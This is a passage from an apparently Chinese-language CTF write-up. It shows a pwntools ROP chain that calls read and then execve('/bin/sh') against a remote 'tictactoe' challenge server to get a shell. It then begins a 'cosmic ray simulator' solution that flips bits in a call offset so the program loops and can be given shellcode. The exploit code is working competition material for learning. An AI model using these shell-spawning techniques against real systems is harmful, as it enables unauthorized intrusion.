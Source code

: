 # syscall: rax  args: rdi,rsi,rdx

payload2 = (
    payload_header
    + flat([rdi_addr, 0, ax_dx_bx_addr, 0, 8, 0, rsi_addr, bss_addr, syscall_addr])
    + flat([rdi_addr, bss_addr, ax_dx_bx_addr, 59, 0, 0, rsi_addr, 0, syscall_addr])
)

# c = process("./tictactoe")  # 64

c = remote("202.38.93.111", 10141)
c.sendline("[TOKEN]")

c.recvuntil("Your turn")
c.sendline("(0,1)")
c.recvuntil("Your turn")
c.sendline("(0,2)")
c.recvuntil("Your turn")
# gdb.attach(c, "bp 0x402582")  # bp retn

c.sendline(payload2)

c.sendline("/bin/sh\x00")

c.interactive()
```
## 超精准的宇宙射线模拟器
打开 ida 分析，首先发现这玩意只能反转一个 bit ，那不行，必须多次反转才能写入 shellcode，所以要检查反转哪个 bit 可以使程序重复执行。

经过一波尝试，我写了一个简单的计算器。发现 0x401296 这个地方，反转第四个 bit 就可以跳转回 _start 使程序无限运行，再反转第六个 bit 就可以跳转到一个此过程中不会被执行的代码段地址，我们可以在这里写入 shellcode

```
from pwn import *

context.arch = "amd64"
#context.log_level = "debug"

# 计 算 器
# 0x401295: call 指令
# 0x401296: 相对偏移
if False:
    rip = 0x401295
    diff = -0xfffffffb  # ？
    data = 0xfffffe26
    data ^= (1 << 4)  # 最后那次跳转用
    for i in range(64):
        new = rip+diff + (data ^ (1 << i))
        print("%d %x" % (i, new))
